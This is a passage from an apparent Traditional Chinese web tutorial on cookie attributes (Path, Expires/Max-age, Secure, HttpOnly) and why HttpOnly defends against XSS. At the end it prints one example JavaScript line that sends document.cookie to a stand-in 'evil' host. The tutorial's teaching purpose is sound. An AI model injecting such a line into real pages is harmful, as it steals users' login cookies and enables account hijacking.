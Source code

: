 ```plaintext
path=/admin
```

`path` 參數用來指定哪些路徑可以存取這個 cookie。

例如：假設 domain 是 example.com，且 `path=/admin`，則 example.com/admin 或是子路徑 example.com/admin/settings 都可以存取此 cookie，但 example.com 或是 example.com/home 則無法存取此 cookie。

**`Path` 的預設值是當前的路徑。**

一般而言來說，認證用途的 cookie 會設成 `path=/`，讓全站都可以存取此 cookie，如此一來不管你在網站的哪個路徑下，server 都能認得你的身份。

### Expires, Max-age

`expires`, `max-age` 參數的作用是設定 cookie 的有效期限。

**如果沒有額外設定 `expires` 或是 `max-age` 參數，當瀏覽器關閉之後，儲存在瀏覽器的 cookie 便會消失，這就是所謂的 session cookie**。

如果我們希望瀏覽器關掉之後 cookie 還是會被儲存下來，那就必須設定 `expires` 或是 `max-age`。

`expires` 是 UTC 格式表示的有效期限，在 JavaScript 中可用 `date.toUTCString()` 取得：

```plaintext
cookie=value; expires=Tue, 19 Jan 2038 03:14:07 GMT
```

`max-age` 表示從設定開始算之後幾秒之內 cookie 是有效的：

```plaintext
cookie=value; max-age=3600
```

### Secure

`Secure` 參數的作用是讓 cookie 只能透過 https 傳遞。

**Cookie 預設是不區分 http 或是 https 的。**換句話說，當我們設定 http://example.com 的 cookie 時，https://example.com 也能看得到同樣的 cookie。

如果 cookie 設了 `secure` 參數，只有透過 https 存取這個網站才能存取這個 cookie；透過 http 存取這個網站會看不到這個 cookie。

這個參數的作用在於保護 cookie 只能在 https 傳遞。話雖如此，我們還是不能將敏感資訊儲存在 cookie 中。

### HttpOnly

`HttpOnly` 參數的作用是防止 JavaScript 存取 cookie。

當一個 cookie 設置了 `httpOnly` 的屬性之後，JavaScript 就不能存取這個 cookie，但是瀏覽器在發送 request 的時候還是會幫你帶在 request header 裡面。

這個參數的設計是為了安全性考量，因為如果 JavaScript 能夠存取這個 cookie 就有受到 XSS Attack (Cross-Site Scripting，跨站腳本攻擊) 的風險。

什麼是 XSS Attack (跨站腳本攻擊) 呢？簡單的說，就是將一段惡意的 JavaScript 程式碼透過表單等方式上傳到 server，之後這份表單資料在前端呈現的時候惡意的 JavaScript 程式碼會被當成是 HTML 的一部分被執行。假設壞人能夠執行 JavaScript，便能很輕易地存取 `document.cookie`，就能夠竊取你用來登入的 cookie，並且用你的身份做惡意的操作：

```JavaScript
// 把你的 cookie 送到壞人的伺服器
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```

